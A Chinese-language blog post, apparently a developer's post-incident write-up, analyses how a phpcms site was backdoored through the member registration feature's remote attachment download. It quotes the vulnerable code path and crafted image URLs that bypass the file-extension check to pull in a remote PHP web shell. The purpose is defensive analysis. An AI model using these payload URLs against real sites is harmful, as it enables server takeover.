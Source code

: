 ```yaml
---
title: phpcms-attachment
date: phpcms 附件远程下载漏洞
categories: 
- 工作
tags:
- phpcms
---
```

没有什么是绝对安全的，能做的就是更好的码代码，提前减少漏洞，等漏洞出现了也别逃避，理解攻击过程，修复漏洞  
<!-- more -->
www.×××.com 网站被挂马了，找找问题呢  
距离上次的头像漏洞也有挺长一段时间了，至少那一次学习到了一些方法，关键的时刻还是有些摸不着套多的头绪，最为主要的分析途径还是日志，但实际面对日志时还是有些手足无措。  

### 安全监控
及时部署安全监控，在被攻击的时候有一定的防御作用，也能起到一定的监控作用，便于后续的问题查找，至少经历这两次问题最能发现问题的地方就在于日志，相应的安全新闻也能起到一些辅助作用。  

部署在云服务器上的一个项目最近也常常报安全漏洞，仅仅是一个展示项目也就没有太在意。每天几乎都有被攻击的安全提醒，sql注入、代码执行等形式。不被使用的功能最好不要部署，或许下一次就被攻击者利用了。  

### 漏洞端倪
用户注册功能对于我们的客户网站，这个功能很少被使用，通常后期极少客户增值后者有在定制中看到使用，没有太多关注攻击手段，防御从何谈起？  
攻击者利用上传漏洞，通过日志发现是 `/index.php m=member&c=index&a=register&siteid=1` 会员模块下的注册功能，直接工具模拟提交数据，对于开源的程序，能看到问题所在，自然也能利用漏洞。  

深入整个逻辑分析一下问题：  
* 攻击入口方法 `register`
    方法前段都是处理接收的参数，后续有一段对于 附表信息的处理
    ```
        //附表信息验证 通过模型获取会员信息
        if($member_setting['choosemodel']) {
            require_once CACHE_MODEL_PATH.'member_input.class.php';
            require_once CACHE_MODEL_PATH.'member_update.class.php';
            $member_input = new member_input($userinfo['modelid']);		
            $_POST['info'] = array_map('new_html_special_chars',$_POST['info']);
            //$_POST['info']['content'] = '<img src="http://phpcms.localhost/i.php/\\\pngjpeg#.png" />';
            $_POST['info']['content'] = '<img src="http://phpcms.localhost/i.txt?.ph%70%70%70/\\\pngjpeg#.jpg" />';
            $user_model_info = $member_input->get($_POST['info']);
            exit;			        				
        }
    ```

* `member_input.class.php` 中可以更改模型
    代码分析：  
    ```
        // 初始化的时候 传入modelid
        $member_input = new member_input($userinfo['modelid']);
        // $userinfo['modelid'] 这个参数是可以通过 POST 提交过来的
        $userinfo['modelid'] = isset($_POST['modelid']) ? intval($_POST['modelid']) : 10;
        // 攻击者主动修改 modelid ,让该模型中其包含 content
        // member_input实例方法get中 有一个动态方法 $fun
        if(method_exists($this, $func)) $value = $this->$func($field, $value);
        // 当 $field 为 content 的时候，$func 为 editor

        // 方法前段有一个判断，$data['islink'] 不存在或者取不等于 1 的值
        $debar_filed = array('catid','title','style','thumb','status','islink','description');
		if($data['islink']==1 && !in_array($field,$debar_filed)) continue;
        
        // editor 方法中有一个很关键的代码，这个也就是问题所在
        $value = $this->attachment->download('content', $value,$watermark_enable);

        // download 方法中可以利用一些特殊命名的链接来实现突破
        // 第一层过滤，模拟提交内容 <img src="http://phpcms.localhost/i.php#.png" />，通过匹配后文会用到 链接 http://phpcms.localhost/i.php#.png ，由于只有下面一条验证，后文取到的文件后缀就是 php ,远程文件 i.php 里面的内容就是攻击者的上传一句话木马
        if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i", $string, $matches)) return $value;

        // 最后由于没有关闭日志输出到页面上，会直接显示 sql 执行失败信息，sql中包含上传的文件的路径
    ```

![](http://wx4.sinaimg.cn/large/e6cd2709gy1ffab1ge1kcj20km08zt9k.jpg)  

### 反思
1. 如果关闭日志显示会不会好一些？  
能表面解决问题，让对方不知道文件名，但是可以写一个脚本不停尝试，问题还是问题  

2. 不用的功能尽量“不用”  
有些功能虽然没有，但他却是会带来一些问题  

3. 涉及文件处理的地方很关键  

思绪万千，提笔无墨，就到这里。  
